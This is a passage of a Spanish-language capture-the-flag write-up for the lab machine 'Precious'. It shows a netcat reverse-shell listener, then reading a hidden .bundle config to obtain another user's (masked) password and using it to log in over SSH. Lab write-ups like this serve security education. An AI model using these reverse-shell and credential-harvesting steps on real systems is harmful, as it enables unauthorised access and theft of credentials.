 > nc -lnvp 4444

Lo ejecutamos y conseguimos acceso como ruby.

```bash
whoami
ruby
```

Realizamos el <a href="https://jgarcix.github.io/Tratamiento-de-la-tty"> tratamiento de la TTY</a> como siempre para poder hacerla interactiva.

# [](#header-1)Escalada de privilegios

A continuación, buscamos en el usuario ruby y encontramos el directorio oculto .bundle en el que hay un archivo que contiene la contraseña de henry.

```bash
ruby@precious:/var/www/pdfapp$ cd /home
ruby@precious:/home$ ls
henry  ruby
ruby@precious:/home$ cd /home/ruby
ruby@precious:~$ ls
ruby@precious:~$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .bundle  .cache  .profile
ruby@precious:~$ cd /home/ruby/.bundle
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:???????????"
ruby@precious:~/.bundle$
```

Accedemos mediante ssh con la contraseña:

```bash
ruby@precious:~/.bundle$ ssh henry@10.10.11.189
The authenticity of host '10.10.11.189 (10.10.11.189)' can't be established.
ECDSA key fingerprint is SHA256:kRywGtzD4AwSK3m1ALIMjgI7W2SqImzsG5qPcTSavFU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.189' (ECDSA) to the list of known hosts.
henry@10.10.11.189's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Mar 16 12:17:46 2023 from 10.10.14.78
henry@precious:~$ whoami
henry
henry@precious:~$ 
```
